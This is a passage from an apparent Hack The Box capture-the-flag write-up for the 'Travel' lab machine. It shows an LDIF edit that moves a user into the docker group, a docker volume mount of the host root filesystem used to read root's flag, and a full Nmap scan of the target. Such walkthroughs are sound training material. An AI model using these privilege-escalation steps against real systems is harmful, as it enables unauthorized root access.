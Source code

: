 ```bash
# Group.ldif
# replacing GID by 117 (docker)
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changeType: modify
replace: gidNumber
gidNumber: 117
```
And we can now log into the box as frank and take a look at the available docker images. Mounting the appropriate one gets the job done:
```bash
frank@travel:~$ docker images
REPOSITORY            TAG                 IMAGE ID            CREATED             SIZE
nginx                 latest              602e111c06b6        3 months ago        127MB
memcached             latest              ac4488374c89        3 months ago        82.3MB
blog                  latest              4225bf7c5157        3 months ago        981MB
ubuntu                18.04               4e5021d210f6        4 months ago        64.2MB
jwilder/nginx-proxy   alpine              a7a1c0b44c8a        5 months ago        54.6MB
osixia/openldap       latest              4c780dfa5f5e        9 months ago        275MB

frank@travel:~$ docker run -v /:/mnt -it ubuntu:18.04
[snip]
root@998315a25191:/# ls /mnt/root/
bin  root.txt  snap
root@998315a25191:/# cat /mnt/root/root.txt
[redacted]
```
# Resources
## <a name="Nmap scan"></a>Nmap scan
```
# Nmap 7.80 scan initiated Sun Jun 28 12:15:54 2020 as: nmap -sC -sV -oN initial.nmap -p- -Pn 10.10.10.189
Nmap scan report for travel (10.10.10.189)
Host is up (0.024s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB
443/tcp open  ssl/http nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB - SSL coming soon.
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Not valid before: 2020-04-23T19:24:29
|_Not valid after:  2030-04-21T19:24:29
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 12:16:20 2020 -- 1 IP address (1 host up) scanned in 25.93 seconds
```
## Tools and reading
<a name="[0]">[0]</a> [Git-dumper](https://github.com/arthaud/git-dumper)

